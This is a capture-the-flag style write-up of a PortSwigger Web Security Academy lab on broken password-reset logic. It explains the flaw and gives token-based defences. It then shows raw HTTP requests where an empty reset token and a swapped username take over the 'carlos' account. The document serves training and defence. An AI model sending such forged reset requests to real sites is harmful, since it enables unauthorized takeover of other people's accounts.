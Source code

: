 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/ce231da9-778c-4f5a-a75d-81f6bd037d3a)


## Overview :

```http
http://vulnerable-website.com/reset-password?user=victim-user
```

In this example, an attacker could change the `user` parameter to refer to any username they have identified. They would then be taken straight to a page where they can potentially set a new password for this arbitrary user. 

 A better implementation of this process is to generate a high-entropy, hard-to-guess token and create the reset URL based on that. In the best case scenario, this URL should provide no hints about which user's password is being reset.
 
 ```http
http://vulnerable-website.com/reset-password?token=a0ba0d1cb3b63d13822572fcff1a241895
```
Still there are certain security checks 

  - System should check whether this token exists on the back-end.
  - Which user's password it is supposed to reset.
  - This token should expire after a short period of time and be destroyed immediately after the password has been reset

## Solution :

We are presented with a blog page where on top we have a `Email client` functionality & also a link to `My Account page`. 

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0094f2a8-efd8-482d-b07d-2e497a7c22ad)

In the login page, there is the `Forgot password` functionality.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9e5b6e67-fa60-4d39-b89b-e0fb18c4eb43)

Clicking on forgot password takes us to this page where we have to enter our *email* to reset our password.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/73f87aee-abc4-42fc-b601-650fa3c20426)

The request sent is as follows,

```http
POST /forgot-password HTTP/2
Host: 0a2900e804bc673e818785ab005d0063.web-security-academy.net
Cookie: session=6QZr51k2HpRZMOx5cGZqIu6Oz80dgJxs
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0a2900e804bc673e818785ab005d0063.web-security-academy.net
Referer: https://0a2900e804bc673e818785ab005d0063.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=wiener
```

We can see that there is a `username=wiener` parameter.

After this the webpage tells us to check our mail for password reset link

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cbaf6bc9-98d4-4c7d-8612-508d9d349eb9)

When we click `Email client` , we can see the password reset mail. On clicking the link , the following request is sent which contains a ``

```http
POST /forgot-password?temp-forgot-password-token=1cnNliHmwl5CL3afZdO3UhVtxAZ9VFTX HTTP/2
Host: 0a2900e804bc673e818785ab005d0063.web-security-academy.net
Cookie: session=6QZr51k2HpRZMOx5cGZqIu6Oz80dgJxs
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 119
Origin: https://0a2900e804bc673e818785ab005d0063.web-security-academy.net
Referer: https://0a2900e804bc673e818785ab005d0063.web-security-academy.net/forgot-password?temp-forgot-password-token=1cnNliHmwl5CL3afZdO3UhVtxAZ9VFTX
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

temp-forgot-password-token=1cnNliHmwl5CL3afZdO3UhVtxAZ9VFTX&username=wiener&new-password-1=newpassword&new-password-2=newpassword
```
In the cookie we can see that it contains a **token, username, password-1(type password) and password-2(retype password)**

By this we have sucessfully changed **wiener's password**.

### Resetting carlos's password -


> What happens if we remove the token value from both the URL and the parameter & also change the username from wiener to *carlos* & forward the request?

```http
POST /forgot-password?temp-forgot-password-token= HTTP/2
Host: 0a4600a504e6ef4c83015a0400490051.web-security-academy.net
Cookie: session=ZE2uXQUBvlVaC1fMI0NExhWaUlzj9Vne
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Origin: https://0a4600a504e6ef4c83015a0400490051.web-security-academy.net
Referer: https://0a4600a504e6ef4c83015a0400490051.web-security-academy.net/forgot-password?temp-forgot-password-token=foIaJd53bYvQKYOM7O642P81W3wySvas
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

temp-forgot-password-token=&username=carlos&new-password-1=newpassword&new-password-2=newpassword
```

When we forward this request, we dont get any error etc, which is a sign that something worked in the backend. Well we might have sucessfully changed the password of *carlos*.

Lets try logging in as carlos with the  password which we used for reset - `newpassword`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/67c9ee64-c8c4-4569-81bf-fcaf12bd4b63)








